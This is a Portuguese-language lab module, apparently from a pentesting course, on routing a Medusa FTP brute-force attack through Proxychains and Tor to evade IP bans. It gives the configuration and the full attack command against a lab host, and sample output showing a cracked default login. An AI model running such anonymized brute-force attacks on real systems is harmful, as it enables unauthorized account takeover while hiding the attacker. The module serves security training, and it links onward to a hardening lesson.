

# 🧅 06 - Rotação de IP com Proxychains e Tor

> [!abstract] Objetivo do Módulo
> Explorar a técnica de encapsulamento de conexões TCP via **Proxychains** e **Tor** para avaliação de comportamento diante de bloqueios de IP (*Rate Limiting*), analisando as limitações operacionais de velocidade e por que essa técnica não é uma solução mágica.

---

## 1. Como Funciona a Interceptação do Proxychains

O Proxychains força qualquer binário dinâmico a rotear suas conexões através de proxies usando a variável `LD_PRELOAD`:



---

## 2. Configuração no Kali Linux

### Passo 1: Iniciar o daemon do Tor
```bash
sudo service tor start
sudo service tor status
```

### Passo 2: Ajustar o arquivo `/etc/proxychains4.conf`
Edite o arquivo de configuração:
```bash
sudo nano /etc/proxychains4.conf
```
Garantir que as seguintes diretivas estejam ativas:
```ini
# Ativar rotação dinâmica ou aleatória
dynamic_chain
proxy_dns

# Configuração de timeout (essencial para evitar travamentos)
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
# IP e Porta do serviço Tor local
socks5  127.0.0.1  9050
```

---

## 3. Execução Controlada do Medusa via Proxychains

```bash
proxychains4 medusa -h 192.168.56.101 \
                    -U wordlists/users_common.txt \
                    -P wordlists/passwords_common.txt \
                    -M ftp \
                    -t 1 \
                    -f \
                    -v 4
```

> [!warning] Regra de Ouro: Threads Baixas (`-t 1`)
> Em ataques normais, usamos `-t 4` a `-t 16`. Com Proxychains e Tor, **deve-se usar `-t 1` ou `-t 2`**, pois abrir múltiplos circuitos simultâneos gera *timeouts* e descarta respostas de autenticação!

```text
|DNS-response| 192.168.56.101 is not a domain
|S-chain| -<>-127.0.0.1:9050-<><>-192.168.56.101:21-<><>-OK
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

> [!screenshot] Registro Visual Recomendado
> Capture o terminal mostrando as linhas `|S-chain|` do Proxychains e salve em `attachments/`:
> ![[06_proxychains_terminal.png|750]]
> *Figura 6: Terminal executando o Medusa através dos circuitos do Proxychains.*

---

## 4. Comparativo Prático: Direto vs Proxychains

| Critério | Execução Direta (LAN) | Com Proxychains + Tor |
| :--- | :--- | :--- |
| **Velocidade Média** | ~40 tentativas por segundo | ~0.5 tentativas por segundo |
| **Tempo para 1.000 senhas** | ~25 segundos | ~33 minutos |
| **Risco de Timeout** | Próximo de zero | Elevado |
| **Bypass de Ban por IP** | Não (se o IP for banido, para) | Sim (cada conexão sai por IP diferente) |
| **Bypass de Account Lockout**| Não | **Não** (a conta é travada pelo usuário) |

---

## 🔗 Próximo Passo
- Avançar para: [[07 - Mitigações e Hardening Blue Team]]
